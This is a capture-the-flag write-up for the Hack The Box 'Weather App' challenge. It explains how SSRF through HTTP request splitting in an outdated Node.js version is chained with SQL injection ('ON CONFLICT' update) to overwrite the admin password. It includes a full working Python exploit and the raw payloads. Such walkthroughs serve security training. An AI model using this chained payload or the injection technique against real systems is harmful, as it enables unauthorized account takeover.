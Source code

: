 # ***writeup : weather app hack the box***
when running the app we are are presented with a screen displaying weather statistics for our current location.


![introduction](1.png)

</br>
Let's analyze the provided source code to identify any potential vulnerabilities.

</br>

![source code](2.png)

We were provided with both the Dockerfile and the source code. We will begin by reviewing the source code to understand the overall structure and logic of the application, which appears to be built using Node.js. By examining the routes directory, we can determine the conditions required to obtain the flag.

![login route](3.png)

- Upon gaining admin access, it is possible to access the content of the '/app/flag' directory. To achieve this, our next step is to investigate how to acquire admin user status. The information related to the admin user is located in the "databases.js" file. The admin's credentials are stored in the database, and the password is randomly generated. Since cracking through brute force is not an option, we will focus on obtaining the password through injection techniques.

- after examination of the registration process, we discovered that the user name and password parameters are not properly sanitized before being sent to the database. This suggests that it may be possible to manipulate the information stored in the database through the registration process.

![register process](pictures/4.png)

at the same time i examinated the process of isadmin function

![admin function](5.png)

In order to gain admin access, we must determine the admin user's password. The strategy to achieve this is by exploiting a vulnerability in the registration process through injection techniques, which can potentially allow us to obtain or modify the admin user's password. To understand the requirements for accessing the registration interface, we will examine the routes/index.js file.

![register](6.png)

- I have determined that the registration interface can only be accessed from a local network. To exploit this, we will investigate which areas within the local network are susceptible to Server-side Request Forgery (SSRF) attacks.

- digging more in the source code I found this in "challenge\helpers\WeatherHelper.js"

![ENDPOINT](7.png)

I revealed that the URL is controllable. Further examination showed that the submission of the URL must be done in the "/api/weather" endpoint.

![post](8.png)

the objective of this challenge is clear: B
- exploit **SSRF** in at the /api/weather endpoint to make request  to /register
- he /register endpoint accepts a username and password as parameters. By injecting **a SQL injection** payload into these parameters, i will try to change the admin user's password.

Unfortunately, I revealed that the /api/weather endpoint does not support POST requests, so it cannot be used to send a request to 127.0.0.1/register

I was stuck at this moment and didn't know what to do , lately i found out that i haven't read the source code completely. I forgot an important thing the **version** of Node being used

![node version ](9.png)

well after a lot of research i found out that this node version is vulnerable to [ssrf via response splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)
</br>well then the exploit is now clear :
- the **endpoint** param will carry our payload in /api/weather
- the payload will conatin **sql injection**

but before that let's analyse the injection method 

```
INSERT INTO users (username, password) VALUES ('${user}', '${pass}')
```
we need to find a payload with sql to update the table users and change the password of the admin 
</br> well ON CONFLICT clause is the solution and our payload should look like this 

``` 
INSERT INTO users (username, password) VALUES ('admin', 'admin') ON CONFLICT(username) DO UPDATE SET password = 'admin';--')
```

so let's now go to the final exploit i built the docker file and launched the app locally
keep in mind that SSRF via response splitting use unicode charachters and this is what we will need in our exploit 

 ```
    "\u0120"; space 
    "\u010D"; \r
    "\u010A"; \n
    "%27"; singleInvertedConverted
    "%22"; double inverted comma
```
and this our final exploit :
```
import requests

url = "http://144.126.228.187:32430"

username="admin"

password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
User = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
Pass = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(User) + len(Pass) + 19
endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+User + '&password='+ Pass + '\u010D\u010A\u010D\u010AGET\u0120/?done='

city='hello'

country='hello'

json={'endpoint':endpoint,'city':city,'country':country}

res=requests.post(url=url+'/api/weather',json=json)
```

endpoint param would look like this : 
```
127.0.0.1 HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded  
Content-Length: len(User) + len(Pass) + 19

username=parsedUsername & password=parsedPassword 

GET /?done=
```

executing this code and trying to connect in the login as admin:admin adn BINGOOOOO!! 

![flag](15.png)